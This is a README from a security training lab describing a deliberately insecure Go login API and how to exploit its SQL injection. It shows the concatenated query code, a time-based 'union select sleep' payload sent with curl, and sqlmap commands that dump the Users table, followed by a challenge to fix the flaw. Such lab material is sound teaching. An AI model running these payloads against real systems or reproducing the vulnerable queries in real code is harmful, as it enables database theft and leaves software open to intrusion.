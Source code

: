 # CopyNPaste API

<img src="../../../images/secDevLabs-logo.png" align="" height="80" />

CopyNPaste is Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enables users register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app-)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:3000][App], as exemplified bellow:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know steps

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:3000/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:3000/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section descrides how an attacker could identify and exploit an SQL Injection in CopyNPaste app. We encourage you follow these steps and try to reproduce the attack itself before reading any code.

#### Vulnerabilituy identification  👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.

<img src="images/attack-0.png" align="center"/>

To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:

<img src="images/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login
```

Request:

<img src="images/attack-2.png" align="center"/>

30 seconds later:

<img src="images/attack-3.png" align="center"/>

#### Vulnerability exploitation 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will come to the app:

```sh
docker logs a1_api -f
```

After that, we could now use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Secure this app 🔧

How could you now migitate this vulnerability? After your code modification, an attacker should not be able to:

* Execute SQL queries into database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:3000
